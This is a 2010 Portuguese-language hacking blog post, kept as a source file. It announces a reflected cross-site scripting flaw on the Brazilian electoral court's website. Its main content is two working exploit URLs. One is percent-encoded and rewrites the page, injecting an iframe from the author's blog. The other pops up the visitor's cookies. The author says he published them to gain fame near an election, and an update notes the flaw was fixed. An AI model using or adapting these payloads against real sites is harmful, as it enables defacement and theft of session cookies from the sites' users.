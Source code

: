 ```yaml
---
layout: post
title: Rapidinha - TSE XSS
date: 2010-09-12 21:45
author: obrerodrigues
comments: true
categories: [Hacking]
---
```

Navegando por acaso no site do <a href="http://www.tse.gov.br/" target="_blank">Tribunal Superior Eleitora</a>l, encontrei uma falha que permite ataques do tipo XSS (já que estamos perto da eleição, bem que posso ganhar alguma fama por isso né?), resolvi postar por postar, e porque estou escrevendo um texto, sobre como tirar todo potencial desse tipo de falha, fazendo mais do que simplesmente exibir uma msgbox na tela, enfim, ai vai the proof of concept:

<a href="http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%74%69%74%6C%65%3D%22%54%53%45%20%58%53%53%65%64%22%3B%76%61%72%20%70%61%67%65%3D%22%3C%6D%61%72%71%75%65%65%3E%3C%68%31%3E%3C%63%65%6E%74%65%72%3E%42%72%65%6E%6E%30%3C%2F%68%31%3E%3C%2F%63%65%6E%74%65%72%3E%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%62%72%65%6E%6E%30%2E%77%6F%72%64%70%72%65%73%73%2E%63%6F%6D%3E%3C%2F%6D%61%72%71%75%65%65%3E%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%69%6E%6E%65%72%48%54%4D%4C%3D%70%61%67%65%3B%61%6C%65%72%74%28%22%58%53%53%22%29%3B%3C%2F%73%63%72%69%70%74%3E" target="_blank">http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced"%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%74%69%74%6C%65%3D%22%54%53%45%20%58%53%53%65%64%22%3B%76%61%72%20%70%61%67%65%3D%22%3C%6D%61%72%71%75%65%65%3E%3C%68%31%3E%3C%63%65%6E%74%65%72%3E%42%72%65%6E%6E%30%3C%2F%68%31%3E%3C%2F%63%65%6E%74%65%72%3E%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%62%72%65%6E%6E%30%2E%77%6F%72%64%70%72%65%73%73%2E%63%6F%6D%3E%3C%2F%6D%61%72%71%75%65%65%3E%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%69%6E%6E%65%72%48%54%4D%4C%3D%70%61%67%65%3B%61%6C%65%72%74%28%22%58%53%53%22%29%3B%3C%2F%73%63%72%69%70%74%3E</a>

ou simplesmente:

<a href="http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E" target="_blank">http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E</a>

<span style="color:#ffffff;">Update 15/09/2010</span>

<span style="color:#ffffff;">A falha foi corrigida mais rápido do que eu imaginava, como minhas provas não funcionam mais, só resta esperar a turma do XSSed.com validar e postar um mirror, <a title="Xssed - Brenn0" href="http://www.xssed.com/search?key=Brenn0" target="_blank">nesse link aqui </a>você encontra os sites vulneráveis a XSS que eu submeti aos arquivos do site, brevemente o do TRE também estará lá.</span>

<strong>=*</strong>
